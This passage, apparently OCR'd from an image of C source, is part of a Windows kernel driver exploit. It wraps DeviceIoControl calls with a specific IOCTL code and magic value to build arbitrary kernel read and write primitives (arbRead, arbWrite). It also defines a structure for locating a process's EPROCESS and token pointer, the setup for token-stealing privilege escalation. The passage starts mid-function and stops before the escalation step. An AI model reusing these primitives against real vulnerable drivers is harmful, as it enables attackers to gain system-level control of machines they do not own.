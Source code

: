 ```c
		obuf,
		1024,
		&BytesReturned,
		NULL);
}

void Copy(HANDLE hFile)
{
	unsigned char obuf[1024];
	BOOL result;
	ULONG BytesReturned;

	memset(obuf, 0, sizeof(obuf));

	result = DeviceIoControl(hFile,
		IOCTL_COPY_SRC_DST,
		(LPVOID)NULL,
		(DWORD)0,
		obuf,
		1024,
		&BytesReturned,
		NULL);
}

QWORD arbRead(QWORD where)
{
	reap ioctl;
	QWORD output;

	ioctl.magic = 0x6A55CC9E;
	ioctl.priority = 0; // THREAD_PRIORITY_NORMAL
	ioctl.thread_id = GetCurrentThreadId();
	ioctl.src_address = where;
	ioctl.dst_address = (QWORD)&output;

	Allocate(hFile, &ioctl);
	Copy(hFile);
	Free(hFile);

	return (output);
}


void arbWrite(QWORD dst, QWORD src)
{
	reap ioctl;

	ioctl.magic = 0x6A55CC9E;
	ioctl.priority = 0; // THREAD_PRIORITY_NORMAL
	ioctl.thread_id = GetCurrentThreadId();
	ioctl.src_address = src;
	ioctl.dst_address = dst;

	Allocate(hFile, &ioctl);
	Copy(hFile);
	Free(hFile);
}

typedef struct eProcResult {
	QWORD eProcess;
	QWORD tokenPtr;
	int pid;
} eProcResult;
```